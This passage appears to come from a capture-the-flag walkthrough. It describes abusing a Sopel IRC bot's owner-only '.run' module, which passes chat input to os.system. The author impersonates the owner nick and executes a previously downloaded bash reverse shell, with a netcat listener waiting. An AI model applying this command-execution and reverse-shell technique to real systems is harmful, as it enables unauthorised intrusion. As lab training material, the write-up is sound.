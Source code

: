 [Sopel](https://sopel.chat/) is a simple, easy-to-use, open-source IRC utility bot, written in Python. It's designed to be easy to use, easy to run, and easy to extend.

In the wallaby's home I found a sopel implementation that runs system commands.

```console
waldo@ubuntu:~$ cat /home/wallaby/.sopel/modules/run.py 
import sopel.module, subprocess, os
from sopel.module import example

@sopel.module.commands('run')
@example('.run ls')
def run(bot, trigger):
     if trigger.owner:
          os.system('%s' % trigger.group(2))
          runas1 = subprocess.Popen('%s' % trigger.group(2), stdout=subprocess.PIPE).communicate()[0]
          runas = str(runas1)
          bot.say(' '.join(runas.split('\\n')))
     else:
          bot.say('Hold on, you aren\'t Waldo?')
```

The user allowed to interact with this feature has to be waldo, when trying to execute system commands with a different nick shows an error.

```console
09:34 < waldo_> .run id
09:34 < wallabysbot> Hold on, you aren't Waldo?
```

You can interact with this service running the irssi.sh script and attaching to it, or once killed the tmux session run the **iessi** client as follows:

```console
waldo@ubuntu:~$ irssi -c 127.0.0.1 -n waldo
```

The first instruction joins to a chat channel, and the second runs the id command.

`/join #wallabyschat`
`.run id`

```console
09:46 <@waldo> .run id
09:46 < wallabysbot> b'uid=1001(wallaby) gid=1001(wallaby) groups=1001(wallaby),4(adm) '
```

If we remember, the bash reverse shell was downloaded to the **/tmp** directory, start a netcat listener and run the following instruction.

`.run bash /tmp/z.sh`

```console
09:50 <@waldo> .run bash /tmp/z.sh
```

And we get a shell as **wallabys** user.
